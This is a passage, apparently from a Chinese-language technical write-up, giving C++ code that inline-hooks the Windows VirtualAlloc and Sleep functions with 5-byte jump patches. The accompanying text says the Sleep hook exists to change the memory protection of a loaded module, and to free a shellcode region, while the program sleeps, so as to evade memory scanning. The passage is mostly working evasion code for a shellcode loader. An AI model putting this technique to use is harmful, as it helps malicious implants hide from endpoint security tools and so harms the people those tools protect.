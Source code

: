 ```c++
    //将偏移地址写入，跳转到新的
    RtlCopyMemory(OldVirtualAlloc, pAllocData, sizeof(pAllocData));
    //还原属性
    VirtualProtect(OldVirtualAlloc, 5, dwAllocOldProtect, &dwAllocOldProtect);
}

void unhookVirtualAlloc() {
    DWORD dwOldProtect = NULL;
    VirtualProtect(OldVirtualAlloc, 5, PAGE_READWRITE, &dwOldProtect);
    //还原硬编码
    RtlCopyMemory(OldVirtualAlloc, g_OldAlloc, sizeof(g_OldAlloc));
    //还原属性
    VirtualProtect(OldVirtualAlloc, 5, dwOldProtect, &dwOldProtect);
}
```

还有一个需要去hook的就是Sleep，因为需要在执行Sleep的时候就将功能模块的内存属性改为不可执行，规避内存扫描。

```c++
static VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;

void WINAPI NewSleep(DWORD dwMilliseconds) {
    if (Vir_FLAG)
    {
        VirtualFree(shellcode_addr, 0, MEM_RELEASE);
        Vir_FLAG = false;
    }
    printf("sleep时间:%d\n", dwMilliseconds);
    unhookSleep();
    OldSleep(dwMilliseconds);
    hookSleep();
    //解锁
    SetEvent(hEvent);
}

void hookSleep() {
    DWORD dwSleepOldProtect = NULL;
    BYTE pSleepData[5] = { 0xe9,0x0,0x0,0x0,0x0 };
    //保存原来的硬编码
    RtlCopyMemory(g_OldSleep, OldSleep, sizeof(pSleepData));
    //计算偏移
    DWORD dwSleepOffeset = (DWORD)NewSleep - (DWORD)OldSleep - 5;
    //得到完整的pAllocData
    RtlCopyMemory(&pSleepData[1], &dwSleepOffeset, sizeof(dwSleepOffeset));
    //改为可写属性
    VirtualProtect(OldSleep, 5, PAGE_EXECUTE_READWRITE, &dwSleepOldProtect);
    //将偏移地址写入，跳转到新的
    RtlCopyMemory(OldSleep, pSleepData, sizeof(pSleepData));
    //还原属性
    VirtualProtect(OldSleep, 5, dwSleepOldProtect, &dwSleepOldProtect);
}

void unhookSleep() {
    DWORD dwOldProtect = NULL;
    VirtualProtect(OldSleep, 5, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    //还原硬编码
    RtlCopyMemory(OldSleep, g_OldSleep, sizeof(g_OldSleep));
    //还原属性
    VirtualProtect(OldSleep, 5, dwOldProtect, &dwOldProtect);
}
```
